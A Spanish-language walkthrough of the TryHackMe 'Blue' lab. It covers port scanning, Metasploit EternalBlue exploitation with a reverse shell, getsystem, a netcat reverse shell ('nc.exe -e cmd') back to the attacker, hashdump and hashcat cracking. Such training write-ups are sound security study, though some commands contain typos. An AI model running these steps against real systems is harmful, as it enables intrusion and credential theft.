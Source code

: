 ```yaml
---
title: "Blue"
description: "Blue thm"
pubDate: 2025-05-09
---
```

https://tryhackme.com/r/room/blue
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sT -Pn -p- --open --min-rate 5000 -T5 -vvv -n 10.10.101.248 -oG allports
```
![[Pasted image 20240427181452.png]]
## Reconocimiento de servicios
```
nmap -sCV -p135,139,445,3389 10.10.101.248 -oN targeted
```
![[Pasted image 20240427183221.png]]
## crackmapexec
```
crackmapexec smb 10.10.101.248
```
![[Pasted image 20240427181551.png]]

# Fase de ataque
## Metasploit
```
msfconsole
```
```
msf6> search eternalblue
```
![[Pasted image 20240427182201.png]]
```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set RHOSTS 10.10.101.248
```
En este caso usamos shell porque queremos
```
msf6> set payload windows/x64/shell/reverse_tcp
```
En este caso por la VPN:
```
set LHOST 10.9.1.161
```
```
msf6> run
```
[-] ==pwned!==

# Privilege Escalation
```
msf6> search shell_to
```
![[Pasted image 20240427190335.png]]

```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set SESSION 1
```
En este caso por la VPN:
```
msf6>set LHOST 10.9.1.161
```
```
msf6> run 
```
```
msf6> sessions -l
```
```
msf6> sessiobs -i 2
```
```
meterpreter> getsystem
```
[+] ==pwned!==

## Shell completa
1. Abrimos un smbserver
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
2. Copiamos a través de archivos compartidos el netcat
```
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
```
3. Nos ponemos en escucha por el puerto 445
```
rlwrap nc -nlvp 445
```
4. Ejecutamos el netcat
```
C:\Windows\Temp\nc.exe -e cmd <ip> 445
```


# Post Explotation
```
meterpreter> ps
```
```
meterpreter> migrate ID_PROCESO
```
![[Pasted image 20240427192129.png]]
```
meterpreter> hashdump
```
![[Pasted image 20240427192123.png]]
```
hashcat -m 1000 hash /usr/share/wordlist/rockyou.txt
```
Found!

Buscar flags
```
meterpreter> search -f flag.txt
```